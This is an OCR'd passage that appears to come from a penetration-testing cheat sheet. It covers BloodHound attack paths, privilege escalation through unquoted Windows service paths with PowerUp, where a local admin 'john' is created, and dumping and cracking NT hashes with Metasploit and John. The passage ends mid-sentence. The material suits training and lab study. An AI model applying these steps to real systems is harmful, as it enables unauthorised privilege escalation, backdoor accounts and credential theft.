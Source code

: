 ```bash
# enter the name of an entity in the search bar (top-left) 
# click the "Pathfinding" icon
# enter the name of a Domain Admins group and click "Find Path"
# click "Change Layout" (right-side)
# review path to privesc 
```

## Unquoted Service Paths
### beRoot
```bash
beRoot.exe # identify privesc options
# look for "[!] Path containing spaces without quotes"
```

### PowerUp
The default exploit used by PowerUp's "Write-ServiceBinary" function creates a local administrator. Use the `-Command` to specify a different exploit. If the unquoted path of your target service is `C:\Program Files\Vuln Server\VulnServer.exe`, the string you would use with `Write-ServiceBinary` is `C:\Program Files\Vuln.exe`. 
```bash
# target Terminal 1:
Import-Module .\PowerUp.ps1
Invoke-AllChecks
# look for "[*] Checking for unquoted service paths"
# pick vulnerable service and copy/paste the string in its "AbuseFunction" field
Write-ServiceBinary -Name "Vuln Server" -Path "C:\Program Files\Vuln.exe"
# check your exploit settings and then get the target to restart (e.g., shutdown /r /t 0)
# login to the target using "john" and "Password123!"
```

# Credential Access

## NTLMv1
SAM and NTDS.dit files contain unsalted NT hashes and are used in NTLMv1 challenge/responses. These hashes can be cracked or used in Pass-the-Hash attacks.

### Metasploit, MSFVenom, Meterpreter, and John
```bash
# setup a handler using Metasploit
# create a Meterpreter-based payload using MSFVenom
# get the target to download and execute the payload
# configure and run the post/windows/gather/hashdump exploit in Metasploit
vim hash.txt # save hash dump to a file
john --format=nt hash.txt # crack the hash
john --format=nt --show hash.txt      # show the password
```

## NTLMv2
NTLMv2 challenge/responses cannot. 
